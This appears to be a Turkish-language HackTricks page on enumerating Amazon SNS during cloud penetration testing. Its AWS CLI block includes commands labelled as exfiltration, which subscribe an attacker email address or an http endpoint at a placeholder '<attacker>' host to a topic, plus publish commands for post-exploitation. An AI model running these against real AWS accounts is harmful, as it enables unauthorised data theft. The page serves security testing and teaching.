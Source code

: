 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS), **tam yönetilen bir mesajlaşma hizmeti** olarak tanımlanır. Hem **uygulama-uygulama** (A2A) hem de **uygulama-kisi** (A2P) iletişim türlerini destekler.

A2A iletişimi için ana özellikler **yayın/abone (pub/sub) mekanizmaları**dır. Bu mekanizmalar, yüksek verimlilikte, **itme tabanlı, çoktan-çoğa mesajlaşmayı** sağlamak için kritik olan **konuları** tanıtır. Bu özellik, dağıtık sistemler, mikro hizmetler ve olay odaklı sunucusuz mimariler içeren senaryolar için son derece avantajlıdır. Bu konuları kullanarak, yayıncı sistemler mesajları **geniş bir abone sistemi yelpazesine** verimli bir şekilde dağıtabilir, böylece bir fanout mesajlaşma modeli oluşturur.

### **SQS ile Fark**

**SQS**, **kuvvet tabanlı** bir hizmettir ve nokta-nokta iletişimi sağlar, mesajların **tek bir tüketici** tarafından işlenmesini garanti eder. **En az bir kez teslimat** sunar, standart ve FIFO kuyruklarını destekler ve mesajların yeniden denemeler ve gecikmeli işleme için saklanmasına izin verir.\
Öte yandan, **SNS** bir **yayın/abone tabanlı hizmettir**, mesajları **birden fazla aboneye** aynı anda yayınlayarak **birden-çoğa** iletişimi mümkün kılar. **E-posta, SMS, Lambda fonksiyonları ve HTTP/HTTPS** gibi çeşitli abonelik uç noktalarını destekler ve hedefli mesaj teslimatı için filtreleme mekanizmaları sunar.\
Her iki hizmet de dağıtık sistemlerde bileşenler arasında ayrıştırma sağlasa da, SQS kuyruklu iletişime odaklanırken, SNS olay odaklı, fan-out iletişim modellerine vurgu yapar.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> **FIFO** türünde bir **konu** varsa, yalnızca **SQS** protokolünü kullanan aboneler kullanılabilir (HTTP veya HTTPS kullanılamaz).
>
> Ayrıca, `--topic-arn` bölgeyi içeriyorsa, **`--region`** parametresinde doğru bölgeyi belirttiğinizden emin olun, aksi takdirde erişiminiz olmadığına dair bir hata alırsınız, ancak sorun bölgedir.

#### Kimlik Doğrulaması Olmadan Erişim

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### Yetki Yükseltme

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### İstismar Sonrası

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### Süreklilik

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## Referanslar

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
